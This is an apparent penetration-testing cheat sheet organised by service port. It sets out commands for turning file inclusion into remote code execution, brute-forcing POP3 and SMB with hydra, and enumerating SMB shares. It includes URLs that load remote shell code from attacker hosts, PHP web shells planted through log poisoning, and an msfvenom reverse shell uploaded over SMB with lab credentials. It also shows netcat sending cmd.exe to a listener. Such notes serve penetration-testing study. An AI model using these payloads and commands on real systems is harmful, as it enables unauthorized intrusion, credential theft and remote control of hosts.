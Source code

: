         RFI: put %00 at end:
        http://target.com/?page=http://hackerip/evil.txt%00

        LFI TO RCE:
        try log poisoning (ex. log into ftp server with user of '<? php system($_GET['cmd']); ?>' , then lfi the var/log/vsftpd.log
            or with /var/log/apache2/access.log:   nc 1.1.1.1 80, then GET /<?php system($_GET['cmd']);?>
            or with /proc/self/environ, use burp (https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) to send malicious url with a modified user-agent
            or with windows ?file=c:\xampp\apache\logs\access.log&cmd=ipconfig   nc -nv 1.1.1.1 80 ,   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
        sending email server a script method (https://bitvijays.github.io/LFC-VulnerableMachines.html)

        Url Remote File Inclusion:
        Try shell saved as .txt, .php, etc. - see what type of scripts the site uses
        works if allow_url_fopen and allow_url_include both = On in the file /etc/php5/cgi/php.ini -- php.ini location is seen in phpinfo.php file
        store remote shell code on your server
        ?page=http://1.2.3.4/reverse.txt?
        ?page=http://1.2.3.4/reverse.txt%00
        might need the ? or %00 at end of url
        save as txt file on your computer
        ex. see reverse.txt php file
        Shell Methods:
        /proc/self/environ method--modify request (user-agent field) w/ burpsuite and upload reverse shell .txt file

## 88 - Kerberos:
- https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
## 110 - POP3:
- Brute Force:  `hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V  \\  hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V`
- Read Mail (w/ creds):  `telnet 10.10.10.17 110; USER bob; PASS password123; LIST; RETR <mail #>; QUIT`
- Other commands: http://sunnyoasis.com/services/emailviatelnet.html
## 139/445 - SMB:
- `nmap -script smb-vuln* -script-args=unsafe=1 -p139,445 <IP>`
- Sniff version:  `sudo ngrep -i -d <interface> 's.?a.?m.?b.?a*[[:digit:]]' port 139  ;  smbclient -L <IP>  \\  Or MSF:  use auxiliary/scanner/smb/smb_version`
- View Shares:  `smbmap -H <IP>  \\  smbclient -L <IP>`
- Enumerate:  `enum4linux [-a] <IP>`
- Brute Force:  `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV`
- Connect:  `Anonymous: smbclient //$ip/share -N  \\  smbclient \\\\$ip\\$share [-U <user>]  \\  smbclient -L <IP> -U administrator  (or anonymous)`
    - Commands:  `help, get, put, etc.`
- Null session with rpcclient (MS-RPC) for legacy samba or SMB:  `rpcclient -U "" [target IP address]  ;  enumdomusers`
- Exploitation Example:
    
        Connect, Upload and get shell via web:    
        (1: initial, unstable shell): msfvenom -p php/reverse_php LHOST=10.10.14.18 LPORT=4444 -o rev.php
        smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put rev.php' -> Visit in browser     
        (2: switch to stable shell w/ nc)
        smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /usr/share/windows-resources/binaries/nc.exe nc.exe'
        ##smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /home/user/simplephpwebshell.php cmd.php'
        In first shell: nc.exe 10.10.14.18 4445 -e cmd.exe
    